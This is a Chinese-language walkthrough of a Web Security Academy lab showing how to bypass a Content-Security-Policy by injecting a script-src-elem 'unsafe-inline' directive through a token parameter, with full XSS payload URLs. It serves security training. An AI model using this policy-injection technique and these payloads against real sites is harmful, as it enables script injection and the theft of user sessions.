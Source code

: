 > 
<h3>实验30：反射XSS受CSP保护，带CSP旁路</h3>
信息：
本实验使用CSP并包含一个反射的XSS漏洞。
完成实验：执行跨站点脚本攻击，绕过CSP并调用alert函数（Chrome）
<hr/>
part1:
在搜索框中输入以下内容：
<pre>`&lt;img src=1 onerror=alert(1)&gt;`</pre>
注意到负载被反映了，但是CSP阻止脚本执行。

分析数据包
在HTTP历史记录中，观察到响应包含一个Content-Security-Policy头，report-uri指令包含一个名为token的参数。因为可以控制token参数，所以可以将自己的CSP指令注入到策略中


<hr/>
part2:
插入XSS
访问以下URL（将YOUR-LAB-ID替换为实验室ID）
<pre><code>https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&amp;token=;script-src-elem%20%27unsafe-inline%27

我的是：
https://0a3800aa03daf86ac26366ef0092004e.web-security-academy.net/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&amp;token=;script-src-elem%20%27unsafe-inline%27</code></pre>


注入使用CSP中的script-src-elem指令。此指令允许仅以脚本元素为目标。使用此指令可以覆盖现有的script-src规则，能够注入unsafe-inline，从而允许使用内联脚本




---

